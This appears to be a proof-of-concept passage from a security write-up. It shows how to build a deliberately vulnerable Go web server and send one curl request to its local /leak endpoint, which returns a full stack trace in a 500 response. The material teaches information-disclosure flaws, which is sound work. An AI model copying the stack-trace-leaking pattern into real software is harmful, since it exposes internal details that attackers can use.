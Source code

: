 **Setup**:

1. Save the vulnerable Go code from Section VIII (Vulnerable Code Snippet) into a file named `main.go`.
2. Open a terminal or command prompt, navigate to the directory where `main.go` was saved, and compile the application:
Bash
    
    `go build -o vulnerable_app main.go`
    
3. Run the compiled application:

./vulnerable_app
The server will start, and you should see output similar to this in your terminal:
```
Starting server on http://localhost:8080
Access http://localhost:8080/leak to see direct stack trace leakage.
Access http://localhost:8080/panic?causepanic=true to trigger a panic (behavior depends on server's top-level panic handling).
```


**Exploitation Steps**:

1. Open another terminal window or use a tool capable of making HTTP requests (like a web browser or Postman). For this PoC, `curl` will be used.
2. Send an HTTP GET request to the `/leak` endpoint of the running application:
Bash
The `i` flag tells `curl` to include the HTTP response headers in the output.
    
    `curl -i http://localhost:8080/leak`
    

**Expected Outcome**:
The `curl` command will output the full HTTP response from the server.

- **Headers**: The response headers will indicate an internal server error, typically `HTTP/1.1 500 Internal Server Error`.
- **Body**: The body of the response will contain the leaked stack trace. The output will resemble the following (exact details like goroutine IDs, memory addresses, and specific line numbers for standard library files may vary based on your Go version and environment):HTTP
    
    ```bash
    HTTP/1.1 500 Internal Server Error
    Content-Type: text/plain; charset=utf-8
    Date:
    Content-Length: [Length of the response body]
    
    Internal Server Error. Stack Trace:
    goroutine 6 [running]:
    runtime.Stack(0x1400012e000, 0x1, 0x0)
        /usr/local/go/src/runtime/stack.go:24 +0x65
    main.vulnerableLeakHandler(0x102f796a0?, 0x1400013c000?, {0x1400012c0f0?, 0x102f318b8?, 0x102f300e0?})
        /path/to/your/main.go:18 +0x50 
    net/http.HandlerFunc.ServeHTTP(0x102f318b8?, 0x102f796a0?, 0x1400013c000?)
        /usr/local/go/src/net/http/server.go:2136 +0x2f
    net/http.(*ServeMux).ServeHTTP(0x0?, 0x102f796a0?, 0x1400013c000?)
        /usr/local/go/src/net/http/server.go:2514 +0x14c
    net/http.serverHandler.ServeHTTP({0x14000142000?}, 0x102f796a0?, 0x1400013c000?)
        /usr/local/go/src/net/http/server.go:2928 +0x29d
    net/http.(*conn).serve(0x140001181b0?, {0x102f7df08?, 0x140000ae078?})
        /usr/local/go/src/net/http/server.go:2009 +0x628
    created by net/http.(*Server).Serve
        /usr/local/go/src/net/http/server.go:3086 +0x584
    ```
    